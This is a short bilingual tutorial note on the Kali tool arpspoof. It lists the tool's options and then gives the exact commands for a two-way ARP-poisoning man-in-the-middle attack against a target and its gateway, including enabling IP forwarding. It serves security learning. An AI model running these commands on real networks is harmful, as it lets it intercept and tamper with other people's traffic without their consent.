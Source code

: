 ```yaml
---
title: ARPspoof
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```


[](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html)

Usage: arpspoof [-i interface] [-t target] host
	-i interface 指定使用的网卡
	-c own|host|both 攻击结束后如何恢复
	-r 				双向毒化
	-t target 指定要攻击的目标
	host 			指定要拦截的主机(默认为网关)

启动Arpspoof注入攻击目标系统。攻击的方法是攻击者（192.168.6.100）发送ARP数据包，以欺骗网关（192.168.6.1）和目标系统（192.168.6.101）。
1. 下面首先欺骗目标系统，执行命令如下所示：
`arpspoof -i eth0 -t 192.168.6.101 192.168.6.1`
2. 使用Arpspoof欺骗网关。执行命令如下所示：
`arpspoof -i eth0 -t 192.168.6.1 192.168.6.101`

##########
Don't forget to enable IP forwarding on your host so that the traffic goes through your host. Otherwise victim will loose connectivity.
# echo 1 > /proc/sys/net/ipv4/ip_forward

In order to tell the victim host that now we (our MAC address) are the one belonging to the IP of the gateway enter the following command:
# arpspoof -t victim gateway

In a seperate shell we start the matching command to fool gateway to belive we are victim.
# arpspoof -t gateway victim
